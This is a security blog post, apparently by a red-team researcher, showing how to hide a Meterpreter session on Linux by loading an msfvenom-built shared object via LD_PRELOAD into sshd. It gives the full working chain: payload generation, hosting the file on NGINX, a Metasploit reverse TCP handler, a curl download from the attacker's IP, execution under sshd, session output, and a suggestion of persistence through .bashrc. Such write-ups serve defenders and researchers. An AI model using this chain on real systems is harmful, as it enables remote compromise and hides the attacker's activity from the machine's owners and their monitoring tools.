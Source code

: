 ```yaml
---
layout: post
title: "Linux EDR Evasion With Meterpreter and LD_PRELOAD"
date: 2020-02-06
categories: ld_preload linux edr evasion meterpreter
---
```


Everyone has their favorite adversary technique to research and mine is LD_PRELOAD process injection because it's pretty versatile. It lets you hook functions to manipulate output, and it can also let you trip up defenders by injecting code into arbitrary processes for execution. In this post, I'll walk through how an adversary might combine Meterpreter with LD_PRELOAD to hide malicious activity under a legitimate Linux system process.

## The Setup

To get started, I'm working with a Kali Linux machine as my attacker system and a CentOS 8 system as my victim. You don't have to limit yourself to this setup, but it's what works for me at the moment.

On the victim system, the only access needed is code execution and the ability to transfer a payload.

On my attacker machine, I need to generate a Meterpeter payload within a shared object library format. To do this, we can use `msfvenom`.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.57 LPORT=2022 -f elf-so > meterpreter.so
```

Next, we need a way to transfer `meterpreter.so` to the victim system. This may be done via a `curl` command or another method of downloading/uploading files.

In my case, I used NGINX to host the SO library from my Kali machine for download:

```
# cp meterpreter.so /var/www/html/
# systemctl start nginx
```

Finally, we need to set up a handler to receive the connection and use it in Metasploit. To do this, we can work with `msfconsole`.

```
# msfconsole

# msf5 > use exploit/multi/handler
# msf5 > set payload linux/x64/meterpreter/reverse_tcp
# msf5 > set LHOST 10.10.10.57
# msf5 > set LPORT 2022
# msf5 > run

[*] Started reverse TCP handler on 10.10.10.57:2022
```

And now we move to our victim system for execution!

## The Execution

On my victim system, I downloaded the SO library using a simple `curl` command:

```
$ curl -O http://10.10.10.57/meterpreter.so
```

From here I can pick any process I want to attribute execution to, as long as it isn't statically compiled. In this case, I'm choosing `sshd` since it often makes network connections and because some network admins use `tcp/2022` to obscure their SSH service availability.

```
$ LD_PRELOAD=./meterpreter.so sshd
```

Once executed, control is never actually passed to `sshd`, and the process execution is controlled by `meterpreter.so` as it reports back for commands. It appears that the process is frozen, but it really isn't.

On the Kali machine I see:

```
[*] Sending stage (3021284 bytes) to 10.10.10.51
[*] Meterpreter session 1 opened (10.10.10.57:2022 -> 10.10.10.51:39314) at 2020-02-06 20:05:00 -0600
```

From Kali I can join the Meterpreter session and get access at the permission level of the victim's user account:

```
meterpreter > sysinfo
Computer        : cent8-01.westeros.local
OS              : CentOS 8.0.1905 (Linux 4.18.0-80.el8.x86_64)
Architecture    : x64
BuildTuple      : x86_64-linux-musl
Meterpreter     : x64/linux
```

If we go to investigate with an EDR product, Auditd/Auditbeats logs, or osquery, the network connection and any actions will be attributed to `sshd`. This requires a defender to be much sharper on their game to spot malicious activity and understand the behavior of system processes. Depending on the actions we want to perform and the ports available for C2, we could potentially do the same with `httpd`, `smtpd`, `vsftpd`, etc.

## How Does It Work?

Most of the time we can safely assume that SO libraries work in a similar fashion to DLLs on Windows. That is, the library must have an exported symbol that should be called for code to execute. We can inspect SO libraries for exported symbols using the `nm` command. Howver, when we inspect our generated `meterpreter.so` library we can notice something odd:

```
# nm -D meterpreter.so
nm: meterpreter.so: no symbols
```

Oddly enough, it doesn't look like our `meterpreter.so` has any symbols to call, so how did `sshd` know to execute the code within the SO library? This is because of a feature of the ELF binary format.

SO libraries follow the ELF binary format and include a section called `.init`. Any code placed within this section will execute when the library is loaded by a process and before control is passed to the process itself. The section is usually used by compilers for global constructors, but we can put nearly anything there for exploitation. When `msfvenom` creates its `elf-so` payloads, it embeds payloads within a template designed to house the payload within the `.init` section for execution. That way, no process should need knowledge of symbols within the library for execution.

This is also the way payloads generated/used by the [Zombie Ant Farm](https://github.com/dsnezhkov/zombieant) project work.

The use of a `.init` section also has an interesting limitation when combined with preloading- it can only be used effectively when you define `LD_PRELOAD` for a single process. When executing Meterpreter in this fashion, the victim process will appear hung. This is because the Meterpreter code continuously executes before control is passed to the victim process's main function. The rest of the process instructions will not execute until Meterpreter exits. This means that if you export `LD_PRELOAD` to leverage this SO library or write the library path into `ld.so.preload`, it will cause serious instability. If you use a preload method that causes `meterpreter.so` to load into numerous or all processes, it will cause loads of processes, even ones needed for system operation, to hang immediately after loading the SO library. So, no bueno.

## Is It Useful?

Eh, it depends. We obviously already need code execution and a method of downloading code to a victim for this to be possible. I could see this being useful when combined with an RCE against publicly-available services to get a stable shell. That said, a simpler and safer route in terms of stability could also be the execution of a Python C2 agent. In the case of a Python agent, it would be slightly harder to cause the attribution of activity to a system process. This is not going to be an initial access method, it would be more useful for long-term evasion and persistence when combined with a `.bash_profile` or `.bashrc` command execution.
